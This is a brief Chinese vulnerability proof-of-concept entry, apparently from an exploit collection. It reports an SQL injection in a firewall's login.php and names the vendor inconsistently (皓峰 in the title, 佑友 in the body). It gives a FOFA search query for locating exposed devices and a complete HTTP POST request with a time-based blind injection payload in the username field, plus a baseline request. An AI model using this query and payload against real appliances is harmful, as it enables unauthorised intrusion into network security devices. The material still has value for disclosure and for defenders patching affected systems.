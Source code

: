# 皓峰防火墙login.php存在SQL注入漏洞

# 一、漏洞简介
深圳市皓峰通讯技术有限公司成立于2004年，位于深圳市高新技术产业园，是经过国家认定的“双软”企业和“国家高新技术企业”。佑友防火墙login存在SQL注入漏洞

# 二、影响版本
+ 佑友防火墙

# 三、资产测绘
```plain
fofa：title="佑友防火墙"
```

![1716109175546-e972b21a-f4d3-4a0f-9677-9e95504a96b0.png](./img/8iZtJsEL5UgBow79/1716109175546-e972b21a-f4d3-4a0f-9677-9e95504a96b0-834190.png)

# 四、漏洞复现
```plain
POST /login.php HTTP/1.1
Host: 
Cookie: PHPSESSID=qc13eucchtnbr161lnca4ibde1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 67

action=login&username=dadsa' AND (SELECT 6357 FROM (SELECT(SLEEP(5)))DIFt) AND 'lKDb'='lKDb&password=dada&submit=%E7%99%BB%E5%BD%95
```

![1716109122397-82220e26-ce75-436b-ae2a-531cd0cae6de.png](./img/8iZtJsEL5UgBow79/1716109122397-82220e26-ce75-436b-ae2a-531cd0cae6de-861886.png)

```plain
POST /login.php HTTP/1.1
Host: 
Cookie: PHPSESSID=qc13eucchtnbr161lnca4ibde1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 67

action=login&username=dadsa&password=dada&submit=%E7%99%BB%E5%BD%95
```

![1716109058542-6ed430c0-630c-49a2-9985-77465eb6ef21.png](./img/8iZtJsEL5UgBow79/1716109058542-6ed430c0-630c-49a2-9985-77465eb6ef21-481519.png)



> 更新: 2024-05-20 22:23:58  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/eavau8fm2o7mcft9>